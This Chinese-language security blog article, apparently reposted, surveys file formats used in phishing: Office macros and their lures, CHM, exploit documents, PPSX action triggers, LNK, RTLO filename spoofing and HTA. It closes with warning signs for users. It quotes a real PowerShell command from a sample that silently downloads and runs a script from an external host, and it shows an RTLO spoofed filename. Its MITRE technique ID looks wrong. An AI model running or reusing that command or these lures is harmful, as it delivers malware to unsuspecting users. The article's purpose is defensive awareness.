钓鱼攻击中文件的几种姿势
以下文章来源于酒仙桥六号部队 ，作者队员编号050
知其黑，守其白。 分享知识盛宴，闲聊大院趣事，备好酒肉等你！
这是 酒仙桥六号部队 的第 50 篇文章。
全文共计2161个字，预计阅读时长8分钟。
网络钓鱼是最常见的社会工程学攻击方式之一。所谓社会工程学，是一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段。在生活工作中，最常使用的邮件、各种文档也成为黑客常用的攻击载体。近些年来，网络钓鱼攻击趋势也一直呈增长趋势，特别是在APT攻击、勒索软件攻击等事件中，扮演了重要的角色。
在PDF、Office文档中内嵌一个跳转链接是很早期的钓鱼方式，通过文字信息的引导，让受害者点开页面，如果缺乏戒心，就可能会获取到受害者的账号、密码、银行卡、身份证等信息。

Office、Adobe等应用软件目前都对打开外部链接都会弹框进行安全提醒，这种方式也比较容易引起人类警觉。
宏是Office自带的一种高级脚本特性，通过VBA代码，可以在Office中去完成某项特定的任务，而不必再重复相同的动作，目的是让用户文档中的一些任务自动化。由于早些年宏病毒泛滥，现在Office的宏功能已经默认是禁用，但依然无法阻挡攻击者使用宏。那么如何引诱受害者开启宏功能就是关键了，常用的套路:
文档是被保护状态，需要启用宏才能查看；
添加一张模糊的图片，提示需要启用宏才能查看高清图片；
提示要查看文档，按给出的一系列步骤操作；
贴一张某杀毒软件的Logo图片，暗示文档被安全软件保护。


恶意宏代码在免杀和增加分析难度的手段上也多种多样，除了把VBA代码混淆变形外，利用Excel的特性隐藏代码也很常见。

上图中996-1006行被隐藏。取消隐藏后，由于字体颜色与背景色相同，所以也难看到，修改这部分背景色查看如下。


利用OLEDump工具，可以看到这段宏代码是读取了这部分内容进行恶意文件的下载。
CHM是Windows帮助文件（如电子书）使用的扩展名，此文件可以被植入可执行代码。成功的利用需要欺骗用户打开恶意的CHM文件，该文件可用于执行恶意代码。其缺点就是打开时会出现弹黑框、卡顿，容易被察觉。

上图是一例恶意CHM文档，打开或点击左侧标题时就会执行powershell代码。通过HH.exe进行反汇编可以看到其执行代码。

CHM文件的利用虽然历史悠久，但通过免杀手段依然活跃，著名的Cobalt Strike就支持CHM钓鱼文件的生成。
利用Office、Adobe、IE等应用软件的漏洞，精心制作成诱饵文档，是APT攻击中的常客。现实中可能不会及时更新打补丁，这种攻击方式的成功率是比较高的。这类文档除了挑选漏洞外，对文件命名也煞费苦心，通常会起最近的热点新闻，或跟自身相关的名字，让人看了不得不点开看看。

捆绑了漏洞的文档，如果需要完美执行，不被察觉，还是比较困难的，不过只要达到目的，只要被打开就完成一大半了。我们可以简单的从几个细节来判断打开的文档是否有问题：
打开后文件变小，因为病毒体被释放，原始文件被干净的文档替换，如果没注意原始大小，也可以从创建时间判断；
文档打开后，office程序自动退出，又自动打开了文档，第二次打开明显快了；
文档运行报错，又或者自行安装你不知道什么的程序；
文档打开缓慢，系统卡顿较长时间；
文档打开后，显示的内容与标题不符，或者是乱码，甚至没什么内容。
随着新冠病毒的爆发，很多行业领域都遭受到带有COVID-19社会工程主题的钓鱼攻击，大多捆绑了勒索软件。
如果文档一打开就触发已经玩腻了，那么在PPT里设置动作触发一行命令执行，就比较少见了。在历史攻击中就出现过这种利用方式，把ppt配置成ppsx后缀，双击运行后就是播放模式，鼠标只要划过指定区域就会执行一段代码，美中不足的是会被弹框警告，如果不警惕点了启用就中招了。

其在运行程序里设置的代码如下：
powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('http:'+[char] 0x2F+[char] 0x2F+'cccn.nl'+[char] 0x2F+'c.php',\"$env:temp\ii.jse\"); Invoke-Item \"$env:temp\ii.jse\""LNK（快捷方式或符号链接）是引用其他文件或程序的方法，最著名的就是震网病毒（Stuxnet）中的利用，在最新的利用样本也有很多，先看一例。

通过分析工具，把执行代码Dump出来，如下图。

快捷方式修改的利用方式，在MITRE ATT@CK中的ID是T0123，攻击者可以使用这种方式来实现持久化。
伪装文件中有个比较古老的方式，但依然会在攻击中看到它的身影。RTLO字符全名为“RIGHT-TO-LEFT OVERRIDE”，是一个不可显示的控制类字符，其本质是unicode 字符。可以将任意语言的文字内容按倒序排列，最初是用来支持一些从右往左写的语言的文字，比如阿拉伯语，希伯来语。由于它可以重新排列字符的特性，会被攻击者利用从而达到欺骗目标，使得用户运行某些具有危害性的可执行文件。

#在命令行下可以看到完整的文件名'使用帮助-如何删除ghost-'$'\342\200\256''cod.exe
RTLO使用的关键字符就是U+202E，配合修改文件的图标，还是很具有迷惑性的。
HTA是HTML Application的缩写，直接将HTML保存成HTA的格式，是一个独立的应用软件，本身就是html应用程序，双击就能运行，却比普通网页权限大得多，它具有桌面程序的所有权限。Cobalt Strike也支持HTA钓鱼文件的生成，另有勒索软件（Locky家族）使用HTA作为传播载体。

钓鱼文档的姿势还有很多，本文只是罗列了一些钓鱼常用的文件形式，举例截图的基本都是真实攻击中使用到的样本。针对钓鱼攻击，具备良好的安全意识才是最有效的防范。对于一些来路不明的文件，即使文件名再吸引人，也不能立马双击打开，同时要及时安装安全补丁。

点赞，转发，在看
本文来源：酒仙桥六号部队